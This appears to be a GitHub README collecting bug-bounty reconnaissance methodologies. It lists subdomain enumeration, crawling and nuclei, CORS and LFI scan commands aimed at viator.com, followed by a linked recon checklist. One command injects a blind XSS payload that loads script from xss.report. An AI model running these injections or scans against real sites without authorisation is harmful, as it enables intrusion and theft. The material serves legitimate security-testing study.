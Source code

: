 # Bug-Hunting-methodologies
this repo contains some public methodologies which I found from internet (google,telegram,discord,writeups etc..) 

# Help to Improv repo
If you found any methodologies please add a pull request so I can merge that and update the repo :D

# 1
```
subfinder -d viator.com -all  -recursive > subdomain.txt

cat subdomain.txt | httpx-toolkit -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt

katana -u subdomains_alive.txt -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -kf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt

cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"

cat allurls.txt | grep -E "\.js$" >> js.txt

cat alljs.txt | nuclei -t /home/coffinxp/nuclei-templates/http/exposures/ 

echo www.viator.com | katana -ps | grep -E "\.js$" | nuclei -t /home/coffinxp/nuclei-templates/http/exposures/ -c 30

dirsearch  -u https://www.viator.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json

subfinder -d viator.com | httpx-toolkit -silent |  katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=https://xss.report/c/coffinxp></script>' -parameters

subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl

python3 corsy.py -i /home/coffinxp/vaitor/subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"

nuclei -list subdomains_alive.txt -t /home/coffinxp/Priv8-Nuclei/cors

nuclei  -list ~/vaitor/subdomains_alive.txt -tags cves,osint,tech

cat allurls.txt | gf lfi | nuclei -tags lfi
cat allurls.txt | gf redirect | openredirex -p /home/coffinxp/openRedirect
```

---

# 2 [ref](https://github.com/RemmyNine/BBH-Recon)

- [Wide Recon](#WideRecon)
    - [Subdomain Enumerating](#Subdomain_Enumerating)
        - [Subfinder](https://github.com/projectdiscovery/subfinder) - GOAT, Config before you use it. Run it using `subfinder -dL target.txt -all -recursive -o output`
        - [BBot](https://github.com/blacklanternsecurity/bbot) - An alternative to subfinder.
        - [DNSDumpster](https://dnsdumpster.com/)
        - [crtSh Postgress DB](https://github.com/RemmyNine/Methodology/blob/main/crtsh.sh) -- Connect to pqdb and extract subdomains. Also manually use this website for some validations.
        - [AbuseIPDB](https://github.com/atxiii/small-tools-for-hunters/tree/main/abuse-ip) -- Use Atxii Script.
        - Favicon Hash -- Search the hash in Shodan --> Write a script to calculate the mm3 hash and search it in shodan.io
        - [Gau](https://github.com/lc/gau) --  `gau --subs example.com | unfurl -u domain | tee >> subs.txt`
        - [Waybackurls](https://github.com/tomnomnom/waybackurls) -- `echo domain.com | waybackurls | unfurl -u domains |‌ tee >> wbuRes.txt`
        - Host Header fuzzing on IP + URL.tld -> `fuf -w wordlist.txt -u "https://domaint.tld" -H "host: FUZZ" -H '### Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 Edg/125.0.0.0`
        - PTR Record from IP
        - Scan ports 80, 443, and 8080 on the target IP address to discover new URLs.
        - Reverse DNS lookup
        - [Adtracker](https://github.com/dhn/udon) -- Use Udon, [BuiltWith](https://builtwith.com/) to use same Ad ID to search for similar domains/subdomains.
      - [DNS BureForce](#DnsBF)
          - [PureDNS](https://github.com/d3mondev/puredns) --> Do a static DNS bruteforce with multiple worldlist. Assetnote, all.txt by JHaddix and SecLists are good options.
          - [Gotator](https://github.com/Josue87/gotator) and [DNSGen](https://github.com/AlephNullSK/dnsgen) --> This gonna be a second-time/dynamic DNS bruteforce using permutation. *DO NOT SKIP THIS PART*
- [Asset Discovery](#AssetDiscovery)
    - Find ASNs + CIDRs + IP, NameServers --> PortScan + Reverse DNS Lookup
    - Unqiue Strings, Copyrights.
    - Find new assets on news, Stock market, Partners, about us.
    - Find new assets on crunchbase and similar websites.
    - Emails --> Reverse email lookup
    - MailServers + Certificate --> Reverse MX + SSL Search (For SSL use crtsh)
    - Search on different search engines (Google, Bing, Yandex)
    - Google Dorks (acquired by company, company. All Rights Reserved., © 2021 company. All Rights Reserved., company. All Rights Reserved." -inurl:company, acquired by target. target subsidiaries)
    - Search SSL on Shodan, FOFA and Censys.
    - Find same DMARC Information [DMARC Live](https://dmarc.live/info/yahoo.com)
